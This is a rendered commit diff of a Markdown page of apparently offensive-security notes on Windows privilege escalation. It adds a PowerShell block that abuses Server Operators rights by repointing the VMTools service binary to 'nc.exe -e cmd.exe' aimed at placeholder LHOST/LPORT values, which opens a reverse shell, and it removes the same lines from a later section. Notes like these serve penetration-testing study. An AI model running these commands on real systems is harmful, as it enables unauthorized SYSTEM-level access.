

Before and after one commit to SkinnyRat/Cybersecurity, a Markdown page: privilege/windows.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/privilege/windows.md
+++ b/privilege/windows.md
@@ -304,6 +304,16 @@ move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
 move .\BackendCacheCleanup.exe .\Pictures\
 ```
 
+If user belongs to Server Operators or similar group with high privileges.
+
+```powershell
+whoami /groups
+
+sc.exe config VMTools binPath="C:\Users\{{USERNAME}}\desktop\nc.exe -e cmd.exe {{LHOST}} {{LPORT}}"
+sc.exe stop VMTools
+sc.exe start VMTools
+```
+
 ## 17.3.2 Using exploits
 
 > Three exploit families for privesc: **application vulnerabilities** (in installed software running privileged), **kernel exploits** (powerful but crash-prone — verify patch level first, and test on a clone before using in a real engagement), and **privilege abuse** (e.g. `SeImpersonatePrivilege` via named-pipe "Potato" tooling).
@@ -326,10 +336,6 @@ Run a matched, source-available kernel exploit (verify the CVE against the missi
 
 ```powershell
 whoami /priv                          # confirm SeImpersonatePrivilege: Enabled
-
-sc.exe config VMTools binPath="C:\Users\\{{USERNAME}}\desktop\nc.exe -e cmd.exe {{LHOST}} {{LPORT}}"
-sc.exe stop VMTools
-sc.exe start VMTools
 ```
 
 **Which Potato for which Windows build** — the variant matters because Microsoft killed the older
````
Also changed, not shown: active/2-harvest.md (+2 -0 lines).
